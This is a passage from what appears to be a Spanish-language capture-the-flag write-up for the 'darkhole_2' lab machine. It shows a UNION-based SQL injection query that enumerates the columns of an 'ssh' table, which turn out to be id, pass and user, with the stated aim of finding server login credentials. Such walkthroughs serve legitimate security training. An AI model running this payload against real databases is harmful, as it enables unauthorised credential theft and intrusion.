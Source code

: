 tenemos dos tablas `ssh`  y  `users` la de ssh me llama mucho la atención por que cabe la posibilidad de que sean credenciales para conectarnos al servidor 

![Paste](./20.jpeg)

Si queremos listar las columnas de la tabla ssh aplicaremos una Query mas larga:

```sql

union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name='ssh'-- -
```


![Paste](./21.jpeg)

Bien tenemos que la tabla de ssh contiene las siguientes columnas 

```txt
Table: ssh 
	columns: id , pass, user 

```
